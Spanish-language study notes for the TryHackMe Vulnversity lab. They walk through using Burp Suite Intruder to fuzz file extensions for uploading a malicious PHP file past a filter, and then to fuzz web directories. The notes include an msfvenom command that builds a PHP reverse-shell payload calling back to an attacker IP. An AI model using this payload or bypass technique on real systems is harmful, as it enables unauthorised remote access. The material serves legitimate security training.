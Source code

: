 Maquinas a utilizar **Kali Linux y Laboratorio de Try Hack Me Vulnversity** [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

Una funcionalidad muy poderosa que tiene burp suite es el intruder, el cual nos permitirá realizar ataques de diccionarios en cualquier parte de nuestras peticiones HTTP. Por lo que en esta ocasión, veremos cómo hacer fuzzing utilizando un diccionario con burp suite.

  

- Como hicimos anteriormente ponemos la configuración del navegador web.
    
    **Ajustes → Settings**
    
    **General→ Network Settings**
    
    **Manual proxy configuration**
    
    **HTTP Proxy: 127.0.0.1 Port: 8080**
    

  

- Activamos la interceptación en BurpSuite
    
    **Proxy → intercept on**
    
      
    
- Subimos el archivo malicioso que habíamos creado con el siguiente comando:
    
    ```Bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > pwned2.php 
    ```
    
    ![[Imagenes/image 37.png|image 37.png]]
    
      
    
    ![[Imagenes/image 1 26.png|image 1 26.png]]
    

  

- Vamos a enviar la petición al **Intruder.** Damos clip derecho y **Send to Intruder.**
    
    ![[Imagenes/image 2 25.png|image 2 25.png]]
    

![[Imagenes/image 3 24.png|image 3 24.png]]

- Seleccionamos todo y pulsamos en el botón Clear.
    
    ![[Imagenes/image 4 23.png|image 4 23.png]]
    
- En un terminal creamos un archivo txt donde vamos a meter nombre de extensiones, las que se nos ocurran.
    
    ```Bash
    nano extensiones.txt
    ```
    
    ![[Imagenes/image 5 22.png|image 5 22.png]]
    

- Vamos a decirle a BurpSuite que vaya probado línea a línea del archivo extensiones.txt hasta acertar con la extensión.
    
    Escogemos el texto donde quiero aplicar la sustitución y pulsamos el **botón Add.**
    
    ![[Imagenes/image 6 20.png|image 6 20.png]]
    
      
    
    ![[Imagenes/image 7 18.png|image 7 18.png]]
    

- Nos vamos a la **pestaña Settings** dentro de **Intruder.**
    
    ![[Imagenes/image 8 16.png|image 8 16.png]]
    

- En **Grep - Extrac**t , activamos la casilla “**Extract the following items…**” esta parte es importante ya que así sabremos si un intento fue exitoso o no. Y pulsamos el botón **Add**
    
    ![[Imagenes/image 9 15.png|image 9 15.png]]
    

  

- Pulsamos en el botón **Fetch response**
    
    ![[Imagenes/image 10 15.png|image 10 15.png]]
    
      
    
    ![[Imagenes/image 11 12.png|image 11 12.png]]
    

- Selecciono el mensaje de error y pulsamos OK
    
    ![[Imagenes/image 12 12.png|image 12 12.png]]
    
    BurpSuit nos guarda la regla.
    
    ![[Imagenes/image 13 12.png|image 13 12.png]]
    
    Cuando el mensaje sea diferente nos lo indicara.
    

  

- Nos vamos a la pestaña **Payloads**. Y en **Payload configuration** pulsamos en el botón **Load** para cargar muestro archivo de extensiones.txt.
    
    ![[Imagenes/image 14 10.png|image 14 10.png]]
    
    ![[Imagenes/image 15 9.png|image 15 9.png]]
    
      
    
- Pulsamos en el botón **Star attack**
    
    ![[Imagenes/image 16 6.png|image 16 6.png]]
    
    ![[Imagenes/image 17 4.png|image 17 4.png]]
    

  

  

---

  

  

Con BurpSuite en caso de no tener otras herramientas también podríamos hacer **Fuzzing Web.**

  

- Activamos **intercept on en BurpSuite**
- En el navegador ponemos la URL de la pagina web `http://10.10.15.36:3333/`
    
    ![[Imagenes/image 18 3.png|image 18 3.png]]
    
      
    
    ![[Imagenes/image 19 3.png|image 19 3.png]]
    

  

- Añadimos lo **/test** a la primera línea de la siguiente forma y lanzamos el **Intruder**
    
    ![[Imagenes/image 20 3.png|image 20 3.png]]
    

  

- Escogemos tests y pulsamos Add
    
    ![[Imagenes/image 21 2.png|image 21 2.png]]
    

  

- Pestaña **Payload** y en **Payload confiration** le añadiríamos en **Load la ubicación del diccionario (que no sea muy grande o se bloquea)** a utilizar o mediante el botón de **add** le podríamos **manualmente** la palabras que queremos que nos busque.
    
    ![[Imagenes/image 22 2.png|image 22 2.png]]
    

  

- Pulsamos en **Start attack**
    
    ![[Imagenes/image 23 2.png|image 23 2.png]]